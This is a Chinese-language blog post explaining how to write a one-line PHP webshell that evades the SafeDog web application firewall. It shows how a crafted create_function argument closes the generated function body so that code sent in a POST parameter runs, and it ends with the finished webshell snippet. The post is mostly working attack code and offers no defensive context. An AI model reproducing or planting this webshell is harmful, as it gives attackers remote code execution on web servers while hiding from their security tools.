


# 过狗一句话编写

[2020-04-13]()

安全狗查杀一句话的时候，通常检测eval 和 \$\_POST\[x\]有没有同时出现，正常的POST数据不拦截，然后我们将POST来的数据放到存在代码执行漏洞的函数中，这样，POST来的数据就被执行了。  

因此就想着试一试.选择的函数是create\_function函数，create\_function函数接收两个参数\$args 和 \$code 然后组成新函数function\_lambda\_func\(\$args\)\{\$code;\} 并eval\(function\_lambda\_func\(\$args\)\{\$code;\}\)，那么我们只要构造\$code来闭合\}然后将自己的代码放到函数体外面就可以执行了。

### [](#构造-code "构造$code")构造\$code

\$code = “n;\}\$\_POST\[x\];/\*”;

解释一下构造的\$code:

* 双引号中\$\_POST\[x\]被执行\(这里以提交x=phpinfo\(\);为例\)
* ;来结束语句
* \}来结束函数体

phpinfo\(\);;就在函数体外面被eval执行了

/\*注释多余的代码

最终代码：`eval(function_lambda_func($args){n;}phpinfo();;/*})`

那么phpinfo\(\)就被执行了.

如图：  
  
过狗测试：  


最终代码：

```
<?php 
    $args = "tony";
    $code = "n;}$_POST[x];/*";
    echo create_function('$args',$code);
?>
```
